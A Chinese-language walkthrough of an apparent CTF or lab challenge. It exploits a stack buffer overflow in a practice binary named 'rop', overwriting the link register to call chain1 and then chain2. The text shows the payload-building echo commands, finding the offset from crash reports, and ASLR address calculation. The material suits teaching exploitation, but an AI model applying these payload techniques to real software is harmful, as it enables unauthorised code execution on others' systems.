 # rop

Run the binary `rop` on the device. Your task is to exploit a vulnerability to call the
function `chain1` followed by `chain2` in the rop binary.

## Make ROP Chains

![](./img/rop-1.png)

当argc为2时，读取`hax.bin`文件到`char acStack_58 [64]`长度是64，这里只要溢出并且将 `lr` 覆盖为`chain1`的地址就能跳转。


- **lldb** 一开始用 lldb 来查看 lr 的值只有48位，看栈上面又是 64 位：
![](./img/rop-lldb.png)


- **console.app** 于是采用查看崩溃报告的方式：
```bash
$ echo -ne "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x42\x42\x42\x42\x42\x42\x42\x42\x46\x46\x46\x46\x46\x46\x46\x46\x48\x48\x48\x48\x48\x48\x48\x48" > hax.bin
$ bin/rop 1
```
然后查看崩溃报告：

![](./img/rop-report1.png)

lr 寄存器的值为：`0x4642424242424242`

因为启用 aslr 所以要计算偏移量，如下例子中偏移量为 `0x1022d3db4-0x100003db4（main 函数的RVA）` ：
```bash
$ bin/rop
Address of main function is 0x1022d3db4
ROP chain challenge, call the function chain1 followed by chain2
...
```
在 Ghidra 中找到 `chain1`：

![](./img/rop_chain1.png)

这里跳转到 chain1 函数 的第二条指令，保留 main 栈，使用命令计算地址：`python3 -c "print(hex(MAIN_VA-0x100003db4+0x100003d14))"`，再以小端的形式加到hax.bin中：

```bash
$ echo -ne "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x42\x14\x7d\xe1\x04\x01\x00\x00\x00" > hax.bin
```

![](./img/rop-chain1_succ.png)

**接下来构造chain2**

先找出第二个能覆盖LR的位置，经过一番尝试后找到了：

![](./img/rop_report2.png)

```
\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x42{chain1 placeholder}\x43\x43\x43\x43\x43\x43\x43\x43{chain2 placeholder}
```

- chain1 的地址为: python3 -c "print(hex(MAIN_VA-0x100003db4+0x100003d14))"
- chain2 的地址为: python3 -c "print(hex(MAIN_VA-0x100003db4+0x100003d90))"

挑战成功：
![](./img/rop-succ.png)